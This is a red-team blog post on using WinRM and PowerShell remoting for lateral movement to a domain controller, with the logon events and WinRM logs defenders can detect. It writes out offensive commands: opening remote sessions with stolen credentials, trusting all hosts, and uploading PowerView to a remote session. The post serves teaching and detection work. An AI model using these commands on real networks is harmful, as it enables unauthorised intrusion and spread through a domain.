 ```yaml
---
layout: post
title: "t1028 winrm for lateral movement"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1028-winrm-for-lateral-movement/
---
```


---
layout: post
title: "t1028 winrm for lateral movement"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1028-winrm-for-lateral-movement/
---

---
description: PowerShell remoting for lateral movement.
---

# WinRM for Lateral Movement

## Execution

Attacker establishing a PSRemoting session from a compromised system `10.0.0.2` to a domain controller `dc-mantvydas` at `10.0.0.6`:

{% code title="attacker@10.0.0.2" %}
```csharp
New-PSSession -ComputerName dc-mantvydas -Credential (Get-Credential)

  Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 Session1        dc-mantvydas    RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\mantvydas> Enter-PSSession 1
[dc-mantvydas]: PS C:\Users\spotless\Documents> calc.exe
```
{% endcode %}

## Observations

Note the process ancestry:

![](../../.gitbook/assets/wsmprovhost-calc.png)

![](<../../.gitbook/assets/wsmprovhost-calc-sysmon (1).png>)

On the host that initiated the connection, a `4648` logon attempt is logged, showing what process initiated it, the hostname where it connected to and which account was used:

![](../../.gitbook/assets/winrm-local-logon-events.png)

The below graphic shows that the logon events `4648` annd `4624` are being logged on both the system that initiated the connection (`pc-mantvydas - 4648`) and the system that it logged on to (`dc-mantvydas - 4624`):

![](../../.gitbook/assets/winrm-logons-both.png)

Additionally, `%SystemRoot%\System32\Winevt\Logs\Microsoft-Windows-WinRM%4Operational.evtx` on the host that initiated connection to the remote host, logs some interesting data for a task `WSMan Session initialize` :

```markup
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-WinRM" Guid="{A7975C8F-AC13-49F1-87DA-5A984A4AB417}" /> 
  <EventID>6</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>3</Task> 
  <Opcode>1</Opcode> 
  <Keywords>0x4000000000000002</Keywords> 

  # connection iniation time
  <TimeCreated SystemTime="2018-07-25T21:13:36.511895800Z" /> 
  <EventRecordID>673</EventRecordID> 

  # a unique connection ID
  <Correlation ActivityID="{037F878B-8DF6-4F1A-BA51-432C3CDDCB47}" /> 

  # process ID that initiated the connection
  <Execution ProcessID="3172" ThreadID="2844" /> 
  <Channel>Microsoft-Windows-WinRM/Operational</Channel> 
  <Computer>PC-MANTVYDAS.offense.local</Computer> 
  <Security UserID="S-1-5-21-1731862936-2585581443-184968265-1001" /> 
  </System>
- <EventData>

  # remote host the connection was initiated to
  <Data Name="connection">dc-mantvydas/wsman?PSVersion=5.1.14409.1005</Data> 
  </EventData>
  </Event>
```

...same as above just in the actual screenshot:

![](../../.gitbook/assets/winrm-eventlogs.png)

![](../../.gitbook/assets/winrm-session-information.png)

Since we entered into a PS Shell on the remote system `(Enter-PSSession)` , there is another interesting log showing the establishment of a remote shell - note that the ShellID corresponds to the earlier observed `Correlation ActivityID`:

![](../../.gitbook/assets/winrm-shell.png)

## Additional Useful Commands

[Jules Adriaens](https://twitter.com/@Expl0itabl3) reached out to me and suggested to add the following useful commands, so here they are:

```csharp
# Enable PowerShell Remoting on the target (box needs to be compromised first)
Enable-PSRemoting -force

# Check if a given system is listening on WinRM port
Test-NetConnection <IP> -CommonTCPPort WINRM

# Trust all hosts:
Set-Item WSMan:\localhost\Client\TrustedHosts -Value * -Force

# Check what hosts are trusted
Get-Item WSMan:\localhost\Client\TrustedHosts

# Execute command on remote host
Invoke-Command <host> -Credential $cred -ScriptBlock {Hostname}

# Interactive session with explicit credentials
Enter-PSSession <host> -Credential <domain>\<user>

# Interactive session using Kerberos:
Enter-PSSession <host> -Authentication Kerberos

# Upload file to remote session
Copy-Item -Path C:\Temp\PowerView.ps1 -Destination C:\Temp\ -ToSession (Get-PSSession)

# Download file from remote session
Copy-Item -Path C:\Users\Administrator\Desktop\test.txt -Destination C:\Temp\ -FromSession (Get-PSSession)
```

## References

{% embed url="http://www.hurryupandwait.io/blog/a-look-under-the-hood-at-powershell-remoting-through-a-ruby-cross-plaform-lens" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1028" %}
@spotheplanet

